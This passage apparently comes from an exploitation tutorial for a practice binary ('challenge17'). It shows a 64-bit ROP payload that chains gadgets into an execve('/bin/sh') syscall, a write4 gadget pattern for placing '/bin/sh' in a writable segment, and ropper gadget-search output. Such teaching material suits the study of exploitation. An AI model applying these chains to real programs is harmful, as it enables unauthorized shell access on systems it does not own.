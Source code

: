 ```
payload += p64 ( syscall )


# execve
payload += p64 ( pop_rdi )
payload += p64 ( sh_addr )
payload += p64 ( pop_rsi_r15 )
payload += p64 ( 0x6020e0 )
payload += p64 ( 0xdeadbeef4 )
payload += p64 ( pop_rax)
payload += p64 ( 59 )
payload += p64 ( syscall )

payload += p64 ( 0x41414141 )
payload += p64 ( 0x42424242 )
```



# Advanced version

## Writing "/bin/sh"

We can use the following Read-Write segment:
```
0x00602000         0x00603000         rw-p	/root/challenges/challenge17/challenge17
```

A write4() can look like this:
```
pop rax; ret    # value to write
pop rdx; ret    # memory location where we want to write the value
mov ptr [rdx], rax; ret
```

```
root@hlUbuntu64:~/challenges/challenge17# ropper --file challenge17 --search  "pop rax"
[INFO] Load gadgets from cache
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rax

[INFO] File: challenge17
0x0000000000400c91: pop rax; nop; pop rbp; ret;

root@hlUbuntu64:~/challenges/challenge17# ropper --file challenge17 --search  "mov "
[INFO] Load gadgets from cache
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov

[INFO] File: challenge17
0x0000000000400c8e: mov dword ptr [rbp - 8], eax; pop rax; nop; pop rbp; ret;

```
